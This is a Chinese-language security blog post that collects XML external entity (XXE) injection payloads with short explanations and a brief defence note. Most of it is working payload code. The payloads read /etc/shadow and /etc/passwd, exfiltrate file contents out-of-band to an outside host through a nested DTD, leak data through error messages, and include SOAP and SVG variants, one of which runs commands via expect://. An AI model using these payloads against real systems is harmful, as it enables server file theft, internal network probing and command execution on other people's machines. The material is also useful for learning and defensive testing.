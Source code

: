 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      xxe的补充-payloads和利用补充               # 标题 
subtitle:   补充一些近来对xxe的学习
date:       2020-04-22              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00：从payloads来学习：
```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```  
该类型的payloads可用于检测xml是否被解析，这是最基本的利用，一般直接在post请求后加入即可，用于有回显的xxe，实属少见了。

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```   
该payload引用了内部实体，一般也是常用于可以回显的xxe，一旦xxe解析成功，可以将内部实体转变为外部实体，尝试去测试服务器是否有waf会拦截非正常的出站流量
，还算是简单的利用，如果对方服务器防护措施比较弱，那么我们还是可以轻松的利用。  
## 0x01***接下来就是外部实体注入***
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
-----------------------------------------------------------------
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY % ent SYSTEM "file:///etc/shadow"> ]%ent;>
```
在外部实体注入中，我们可以使用命名实体和参数实体，参数实体多用于blind xxe，这些为简单的外部实体注入，在解析DTD的时候直接会引用外部实体参数，以至于
注入。对于blind xxe来说，我们一般都使用OOB去辨别xml是否解析，用到如以下的payload去建立带外信息通道：  
```
---------------------------------------------------------------------------------
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % blind SYSTEM "https://www.example.com/aaa.dtd">%blind;%abc;%send;]>
其中aaa.dtd：
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % abc SYSTEM "<!ENTITY &#x25; send SYSTEM "https://www.example.com/?%xxe">">
```
这里使用了外带，我们在下面的外带中要使用三层嵌套才能成功外带，在服务器上的日志即可查看到外带信息，http传输一般在2000个字节以下，所以内容过长的话，
我们可以借助协议来压缩，类似php://filter/read=convert.base64-encode/resource=file:///etc/passwd.另外还有一个方法便是直接使用三层嵌套来报错
回显内容：   
```
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
```   
## 0x02总结：
在xxe的利用中，我们一般进行的是内网渗透、dos攻击、窃取文件信息，如果有php环境以及expect协议的话，还可以进行命令执行，总体来说目前较少出现xxe漏洞，
主要利用的是blind xxe攻击，一般的攻击思路就是测试系统服务器是否能解析通过解析xml来达到我们的攻击目的，在excel等文件中可进行。  
一般的防御措施：（简单）    
1、使用对应语言的xml外部实体注入防御措施    
2、检测过滤<!DOCTYPE、 <!ENTITY、 SYSTEM、 这些关键词    
另外补充一点特殊点的xxe注入：  

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
